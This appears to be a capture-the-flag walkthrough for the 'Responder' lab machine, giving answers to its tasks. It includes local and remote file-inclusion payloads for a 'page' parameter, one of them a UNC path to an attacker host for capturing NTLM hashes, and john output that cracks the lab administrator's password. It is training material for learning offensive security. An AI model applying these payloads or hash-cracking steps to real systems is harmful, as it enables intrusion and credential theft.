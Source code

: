 # Responder
TARGET MACHINE IP ADDRESS
10.129.85.25

TASK 1
When visiting the web service using the IP address, what is the domain that we are being redirected to?

*****.**b
unika.htb

TASK 2
Which scripting language is being used on the server to generate webpages?
php

TASK 3
What is the name of the URL parameter which is used to load different language versions of the webpage?
page

TASK 4
Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

--> ../../../../../../../../windows/system32/drivers/etc/hosts

TASK 5
Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
--> //10.10.14.6/somefile

TASK 6
What does NTLM stand for?
 New Technology LAN Manager

TASK 7
Which flag do we use in the Responder utility to specify the network interface?
-I

TASK 8
There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
john the ripper

TASK 9
What is the password for the administrator user?
┌──(root㉿kali)-[~]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2023-01-18 03:56) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
             

TASK 10
We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
5985

SUBMIT FLAG

Submit root flag